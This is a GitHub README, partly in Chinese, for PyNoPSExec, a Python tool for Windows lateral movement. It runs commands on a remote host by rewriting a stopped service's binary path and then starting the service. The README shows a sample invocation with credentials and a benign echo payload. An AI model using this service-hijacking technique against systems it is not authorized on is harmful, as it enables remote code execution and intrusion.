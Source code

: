 # PyNoPSExec
**A Lateral Movement Tool Learned From SharpNoPSExec  --  Twitter: @juliourena  根据@juliourena大神的SharpNOPsExec项目改写的横向移动工具** 
+ Platform(平台): Windows 10
+ Language(语言): Python2
## 原理简介  

** 通过修改服务启动的二进制文件路径，然后启动服务来执行，对服务的要求是：**
+ 没有运行的手动启动或禁止启动的服务
+ 服务没有依赖项
+ 该脚本没有提供服务二进制文件路径恢复功能，需要先记好对应路径，然后可以再次运行该脚本进行恢复，避免服务出问题
## 使用方法

```bash
net use \\192.168.23.107 "TestPassword@123" /user:testuser
python PyNoPSexec.py  -t 192.168.23.107 -u testuser -p "TestPassword@123" -d test.sec.com -s AppMgmt -e "c:\\windows\\system32\\cmd.exe /c echo hackedbybobac > c:\\bobac.txt"
```
![image](https://user-images.githubusercontent.com/11972644/117527553-82264700-afff-11eb-9850-45ecbd997f98.png)
![image](https://user-images.githubusercontent.com/11972644/117527633-0bd61480-b000-11eb-955e-d8310d463090.png)


